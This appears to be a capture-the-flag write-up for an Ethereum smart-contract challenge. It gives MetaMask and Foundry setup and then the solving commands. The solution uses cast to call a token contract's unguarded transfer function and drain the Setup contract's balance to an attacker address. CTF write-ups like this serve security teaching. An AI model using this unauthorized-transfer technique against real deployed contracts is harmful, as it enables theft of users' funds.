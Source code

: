 # Note 

## Setup

### MetaMask

#### Account Creation

1. Create an account on MetaMask
2. Go to `Settings > Networks > Add a network`
3. At the bottom of the screen, choose `Add a network manually`
4. Enter any name
5. Enter the RPC URL provided in the challenge page
    > RPC endpoint: http://45.61.132.140:8545/
6. There would be an error message regarding mismatch chain ID. Use the exact chain ID mentioned in the error message (`0x5903`)
7. Enter any currency symbol
8. Save

#### Getting Address, Funds, and Private Key

1. Go to `Account details`
2. The address would be shown in blue box (hexadecimal value)
3. For private key, just click on `Show private key`
4. To get some funds, head to the provided faucet URL and paste in your account address
    > ETH Testnet Faucet: http://45.61.132.140:8080/

### Foundry

```sh
cast wallet new
```

## Solution

> [!NOTE]
> Remember to prefix the private key with `0x`

### Foundry Cast

```sh
nc 45.61.132.140 20000
# choose 1 and save the deployer account and token
cast send $DEPLOYER_ACCOUNT --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY --value 0.001ether
nc 45.61.132.140 20000
# choose 2 and provide back the token obtained from previous step to get the contract address
export SETUP_ADDR="<contract address>"

forge init --shallow --no-git Solve
rm -f ./Solve/src/* ./Solve/test/*
cp ./contracts/* ./Solve/src/
forge build

cast interface ./Solve/out/Setup.sol/Setup.json
cast interface ./Solve/out/OsuCoin.sol/OsuCoin.json

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "coin()(address)"

export COIN_ADDR="<output of previous command>"
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR

cast send $COIN_ADDR --rpc-url $RPC_ENDPOINT --private-key $PRIVATE_KEY "transfer(address,address,uint256)(uint160)" $SETUP_ADDR $HACKER 1000000
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $SETUP_ADDR
cast call $COIN_ADDR --rpc-url $RPC_ENDPOINT "balanceOf(address)(uint128)" $HACKER

cast call $SETUP_ADDR --rpc-url $RPC_ENDPOINT "isSolved()(bool)"
nc 45.61.132.140 20000
# choose 3 and profit
```

### Foundry Forge

```sh
# on-chain simulation
forge script script/Solve.s.sol:SolveScript --rpc-url $RPC_ENDPOINT

# real
forge script script/Solve.s.sol:SolveScript --rpc-url $RPC_ENDPOINT --broadcast
```

## Appendix

Use `cast call` if the function is declared with `view` keyword, otherwise use `cast send`
